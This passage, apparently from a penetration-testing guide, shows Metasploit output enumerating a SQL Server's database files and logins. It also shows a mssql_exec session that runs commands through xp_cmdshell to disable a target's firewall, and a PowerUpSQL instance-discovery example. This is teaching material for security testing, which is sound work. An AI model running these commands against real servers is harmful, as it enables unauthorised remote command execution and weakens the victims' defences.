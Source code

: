 ```text
[*] c:\Program Files\Microsoft SQL Server\MSSQL.1\MSSQL\DATA\modellog.ldf 
[*] Database name:msdb 
[*] Database Files for msdb: 
[*] c:\Program Files\Microsoft SQL Server\MSSQL.1\MSSQL\DATA\MSDBData.mdf 
[*] c:\Program Files\Microsoft SQL Server\MSSQL.1\MSSQL\DATA\MSDBLog.ldf 
[*] System Logins on this Server: 
[*] sa 
[*] ##MS_SQLResourceSigningCertificate## 
[*] ##MS_SQLReplicationSigningCertificate## 
[*] ##MS_SQLAuthenticatorCertificate## 
[*] ##MS_AgentSigningCertificate## 
[*] BUILTIN\Administrators 
[*] NT AUTHORITY\SYSTEM 
[*] V-MAC-XP\SQLServer2005MSSQLUser$V-MAC-XP$SQLEXPRESS 
[*] BUILTIN\Users 
[*] Disabled Accounts: 
[*] No Disabled Logins Found 
```

#### mssql\_exec 

The mssql\_exec admin module takes advantage of the xp\_cmdshell stored procedure to execute commands on the remote system. If you have acquired or guessed MSSQL admin credentials, this can be a very useful module. 

```text
msf auxiliary(mssql_exec) > set CMD netsh firewall set opmode disable 
CMD => netsh firewall set opmode disable 
msf auxiliary(mssql_exec) > set PASSWORD password1 
PASSWORD => password1 
msf auxiliary(mssql_exec) > set RHOST 192.168.1.195 
RHOST => 192.168.1.195 
msf auxiliary(mssql_exec) > run 
[*] The server may have xp_cmdshell disabled, trying to enable it... 
[*] SQL Query: EXEC master..xp_cmdshell 'netsh firewall set opmode disable' 
 output 
 ------ 
 Ok. 
[*] Auxiliary module execution completed 
msf auxiliary(mssql_exec) > 
```

### PowerUpSQL

PowerUpSQL: A PowerShell Toolkit for Attacking SQL Server 

Link: [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) 

Example: 

```text
PS /opt/PowerUpSQL> Import-Module .\PowerUpSQL.ps1  
PS /opt/PowerUpSQL> Get-SQLInstanceDomain -Verbose 
VERBOSE: Grabbing SPNs from the domain for SQL Servers (MSSQL*)... 
VERBOSE: 0 SPNs found. 
VERBOSE: Parsing SQL Server instances from SPNs... 
VERBOSE: 0 instances were found. 
```
